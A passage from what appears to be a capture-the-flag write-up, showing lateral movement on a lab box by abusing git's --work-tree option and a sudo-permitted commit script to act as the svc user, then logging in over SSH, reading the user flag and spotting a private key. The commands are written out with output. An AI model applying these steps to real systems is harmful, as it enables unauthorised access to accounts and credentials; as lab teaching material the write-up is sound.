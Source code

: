 

The `--work-tree` argument allows me to specify a directory to consider
part of the repo. I'll add `/etc/hostname`:



    www-data@encoding:~/image$ git --work-tree /etc/ add /etc/hostname 
    www-data@encoding:~/image$ git status
    On branch master
    Changes to be committed:
      (use "git restore --staged <file>..." to unstage)
            new file:   hostname

    Changes not staged for commit:
      (use "git add/rm <file>..." to update what will be committed)
      (use "git restore <file>..." to discard changes in working directory)
            deleted:    hostname



Not it shows up as new and deleted (which is a bit weird, but I'm doing
weird things with `git`).

#### Trigger

`sudo` and the script will commit to the repo now since there are
changes to be committed.



    www-data@encoding:~/image$ sudo -u svc /var/www/image/scripts/git-commit.sh
    [master b40dd01] Commited from API!
     1 file changed, 1 insertion(+)
     create mode 100644 hostname



It works, and I can SSH as svc:



    oxdf@hacky$ ssh -i ~/keys/ed25519_gen svc@haxtables.htb
    Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-58-generic x86_64)
    ...[snip]...
    svc@encoding:~$ 



And get the user flag:



    svc@encoding:~$ cat user.txt
    20861ae5************************



There's also a SSH key in the user's home directory which I can grab for
future use (if I overwrite the previous `authorized_keys` I'll need to
re-add `id_rsa.pub`):



    svc@encoding:~/.ssh$ ls
    authorized_keys  id_rsa  id_rsa.pub  known_hosts
